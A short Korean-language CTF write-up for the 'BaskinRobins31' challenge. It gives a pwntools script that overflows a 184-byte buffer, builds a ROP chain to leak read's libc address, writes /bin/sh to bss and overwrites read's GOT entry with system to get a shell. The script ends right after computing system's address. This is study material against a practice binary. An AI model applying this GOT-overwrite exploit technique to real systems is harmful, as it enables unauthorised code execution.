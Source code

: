 1. write 함수를 이용해서 read 주소를 릭하고, 이를 이용해서 libc_base를 구한다.
2. read 함수를 이용해서 bss에 쉘을 넣어준다.
3. read 함수를 이용해서 read got를 system 함수로 체이닝 해준다.
4. read 함수를 호출하고, 이때 인자로는 bss를 넘겨준다. bss에는 `/bin/sh`가 들어있다.<br>

```python
from pwn import *

p = process("./BaskinRobins31")
e = ELF("./BaskinRobins31")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

system_offset = libc.symbols['system']
read_offset = libc.symbols['read']

read_plt = e.plt['read'] 
read_got = e.got['read']
write_plt = e.plt['write']
bss = e.bss()
pppr = 0x40087a
pr = 0x00400bc3


log.info('pppr : {}'.format(hex(pppr)))
log.info('bss : {}'.format(hex(bss)))
log.info('read_plt : {}'.format(hex(read_plt)))
log.info('read_got : {}'.format(hex(read_got)))
log.info('write_plt : {}'.format(hex(write_plt)))
log.info('system_offset : {}'.format(hex(system_offset)))
log.info('read_offset : {}'.format(hex(read_offset)))

# BOF
payload = "A" * 184 # Buffer + SFP

# ROP Channing

# read(1, read_got, 8);
payload += p64(pppr)
payload += p64(1)
payload += p64(read_got)
payload += p64(8)
payload += p64(write_plt)

payload += p64(pppr)
payload += p64(0)
payload += p64(bss)
payload += p64(8)
payload += p64(read_plt)

payload += p64(pppr)
payload += p64(0)
payload += p64(read_got)
payload += p64(8)
payload += p64(read_plt)

payload += p64(pr)
payload += p64(bss)
payload += p64(read_plt)

p.sendlineafter("(1-3)\n", payload)

leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = leak - read_offset
system = libc_base + system_offset
```